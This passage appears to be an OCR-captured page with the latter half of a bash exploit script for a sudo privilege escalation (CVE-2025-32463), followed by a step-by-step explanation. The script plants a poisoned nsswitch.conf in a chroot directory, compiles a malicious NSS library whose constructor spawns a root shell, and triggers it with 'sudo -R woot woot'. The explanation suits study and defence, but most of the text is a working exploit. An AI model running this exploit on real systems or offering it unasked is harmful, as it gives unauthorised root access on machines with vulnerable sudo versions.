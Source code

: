 ```bash
    chdir("/");             /* exit from chroot jail */
    execl("/bin/bash","/bin/bash",NULL); /* spawn root shell */
}
EOF

# 2. Create mini chroot environment with poisoned nsswitch.conf
mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc            # make getgrnam() not fail

# 3. Compile malicious NSS library
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "[*] Running exploit…"
# 4. Exploit sudo's -R (chroot) option
sudo -R woot woot                 # (-R <chroot_dir> <command>)
                                   # • First "woot" = chroot directory
                                   # • Second "woot" = non-existent user to resolve
                                   # • sudo loads our malicious NSS library
                                   # • Constructor function executes as root

rm -rf "$STAGE"
```

### Understanding CVE-2025-32463

**Vulnerability Description:**

CVE-2025-32463 is a privilege escalation vulnerability in sudo 1.9.16p2 that exploits the `-R` (chroot) option combined with NSS (Name Service Switch) library loading.

**Exploit Flow:**

1. **Setup Phase:**
   - Creates a malicious shared library (`libnss_/woot1337.so.2`)
   - The library contains a constructor function that runs automatically when loaded
   - Constructor sets UID/GID to 0 (root) and spawns a root shell

2. **Chroot Environment:**
   - Creates a minimal chroot directory (`woot/`)
   - Places a crafted `nsswitch.conf` that references our malicious library
   - Copies `/etc/group` to prevent errors

3. **Exploitation:**
   - Runs `sudo -R woot woot`
   - The `-R woot` tells sudo to chroot into the `woot` directory
   - The second `woot` is treated as a username to resolve
   - sudo uses NSS to resolve the user, loading our malicious library
   - Our constructor function executes **as root** (sudo is SUID)
   - Breaks out of chroot and spawns root shell

**Why it works:**
- sudo doesn't properly sanitize the chroot environment
- NSS libraries are loaded with elevated privileges
- Constructor functions execute before main program logic
- No validation of NSS library authenticity
